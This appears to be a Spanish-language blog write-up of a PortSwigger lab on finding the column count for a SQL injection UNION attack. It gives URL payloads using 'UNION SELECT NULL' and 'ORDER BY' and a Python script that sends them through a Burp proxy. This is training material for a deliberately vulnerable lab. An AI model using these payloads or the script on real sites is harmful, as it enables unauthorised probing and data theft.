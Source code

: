 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: /publications/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-3/descripcion.png)

## Objetivo del laboratorio

Determinar el número de columnas devueltas por la consulta realizando un ataque de inyección SQL UNION que devuelva una fila adicional que contenga valores nulos.

## Query

![categorias]({{site.url}}/images/SQLi/sqli-3/categorias y url.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM tabla WHERE category = '<CATEGORY>'
```

Comprobamos que es vulnerable a SQLi insertando en la url el parametro:

```sql
' --
```

![Comprobar]({{site.url}}/images/SQLi/sqli-3/comprobar.png)

## Determinar el numero de columnas retornadas por la consulta

1) El payload se veria asi con NULL:

```javascript
/filter?category=Gifts' UNION SELECT NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL, NULL--
```

Vamos insertando `NULL` con `UNION SELECT` para ver cuantas columnas estan disponibles etc...

2) Probamos con `ORDER BY` para ver que cantidad son vulnerables, vamos incrementando el numero

```javascript
/filter?category=Gifts' ORDER BY 1--
/filter?category=Gifts' ORDER BY 2--
/filter?category=Gifts' ORDER BY 3--
```

## Forma determinar con NULL

```javascript
filter?category=Gifts' UNION SELECT NULL,NULL,NULL--
```
La web para a realizar el `URL ENCONDE` y quedaria algo asi:

![url enconde]({{site.url}}/images/SQLi/sqli-3/NULL.png)

En BurpSuite se veria de la siguiente forma

![BurpSuite]({{site.url}}/images/SQLi/sqli-3/burp.png)

## Forma determinar con ORDER BY

```javascript
filter?category=Gifts' ORDER BY 3--
```
Sin Url Encode:

![url]({{site.url}}/images/SQLi/sqli-3/url.png)

El navegador hace `URL ENCONDE` y quedaria algo asi:

![url_enconde]({{site.url}}/images/SQLi/sqli-3/url encode.png)

Aprobado
![Aprobado]({{site.url}}/images/SQLi/sqli-3/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "/filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i -1
        i = i + 1
    return False


if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print('[-] Usage: %s <url>' % sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...") 
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print ("[+] The number of columns is " + str(num_col) + ".")
    else:
        print("[-] The SQLi attack was not successful.")
```